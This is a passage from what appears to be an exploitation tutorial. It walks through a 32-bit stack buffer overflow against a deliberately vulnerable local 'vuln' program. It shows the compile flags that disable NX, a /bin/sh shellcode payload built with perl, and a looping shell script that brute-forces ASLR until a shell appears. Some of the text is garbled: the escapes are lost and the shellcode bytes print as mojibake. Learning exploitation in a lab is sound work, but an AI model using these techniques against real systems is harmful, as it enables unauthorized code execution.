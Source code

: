 Compiled with NX disabled and `ltrace` we get with the direction of that moment of `buf`.  
`$ gcc vuln.c -o vuln -m32 -z execstack`

$ ltrace ./vuln \`cat sc.o“perl -e ‘print “A”x(140-31) . “xaaxaaxaaxff”‘\`  
\_\_libc\_start\_main(0x56601602, 2, 0xffa4cb84, 0x56601650 <unfinished …>  
strcpy(0xffa4ca30, “130013333152001300Ph//shh/bin211343PS2113411322260v315200A”…) = 0xffa4ca30  
puts(\[…\]) = 145  
— SIGSEGV (Segmentation fault) —  
+++ killed by SIGSEGV +++  
Then a valid address for our `buf` is `0xffa4ca30`. A nopsled could make things pretty, and even more if you were in a variable environment. But let’s first try using only our small buffer.  

    #!/bin/sh
    i=0
    while :
    do
        echo "Intento: $i"
        ./vuln `cat sc.o``perl -e 'print "A"x(140-31) . "x30xcaxa4xff"'`
        i=$((i+1))
    done

Run it, and wait  
I just came back (as I was taking), and has already finished brute force, trying 472,449 (more than previous executions, as I have tried several scripts to see which was the fastest and practical, so we should add a few more attempts).

    $ ./aslr.sh
    Intento: 0
    1�1�̀1�Ph//shh/bin��PS��1Ұ
                             AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0ʤ�
    Segmentation fault (core dumped)
    Intento: 1
    1�1�̀1�Ph//shh/bin��PS��1Ұ
                             AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0ʤ�
    Segmentation fault (core dumped)
       .
       .
       .
    Intento: 472446
    1�1�̀1�Ph//shh/bin��PS��1Ұ
                             AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0ʤ�
    Segmentation fault (core dumped)
    Intento: 472447
    1�1�̀1�Ph//shh/bin��PS��1Ұ
                             AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0ʤ�
    Segmentation fault (core dumped)
    Intento: 472448
    1�1�̀1�Ph//shh/bin��PS��1Ұ
                             AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0ʤ�
    $ 

